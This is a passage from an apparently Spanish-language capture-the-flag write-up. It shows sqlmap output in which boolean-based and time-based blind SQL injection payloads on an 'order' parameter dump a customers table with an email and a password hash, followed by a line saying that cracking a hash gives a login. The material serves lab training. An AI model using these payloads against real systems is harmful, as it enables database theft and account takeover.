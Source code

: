 ```shell
[*] starting @ 19:00:54 /2023-04-30/

[19:00:54] [INFO] resuming back-end DBMS 'mysql' 
[19:00:54] [INFO] testing connection to the target URL
[19:00:54] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: order (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: order=(SELECT (CASE WHEN (5444=5444) THEN 'id desc' ELSE (SELECT 9613 UNION SELECT 3016) END))&h=a1b30d31d344a5a4e41e8496ccbdd26b

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: order=(CASE WHEN (9401=9401) THEN SLEEP(5) ELSE 9401 END)&h=a1b30d31d344a5a4e41e8496ccbdd26b
---
[19:00:54] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2022 or 2016 or 11 or 2019 or 10
web application technology: PHP 7.4.1, Microsoft IIS 10.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:00:54] [INFO] fetching columns for table 'customers' in database 'cleaner'
[19:00:54] [INFO] resumed: 4
[19:00:54] [INFO] resumed: id
[19:00:54] [INFO] resumed: customer_name
[19:00:54] [INFO] resumed: login
[19:00:54] [INFO] resumed: password
[19:00:54] [INFO] fetching entries for table 'customers' in database 'cleaner'
[19:00:54] [INFO] fetching number of entries for table 'customers' in database 'cleaner'
[19:00:54] [INFO] resumed: 29
[19:00:54] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[19:00:54] [INFO] retrieved: Vikki Solomon
[19:01:13] [INFO] retrieved: 1
[19:01:14] [INFO] retrieved: vikki.solomon@throwaway.mail
[19:01:43] [INFO] retrieved: 7c6a180b36896a0a8c02787eeafb0e4c
```

Dumpeamos la base de datos y crackeando cualquier hash podemos logearnos en la plataforma.

![imagen6](/assets/images/Proper/proper6.png)
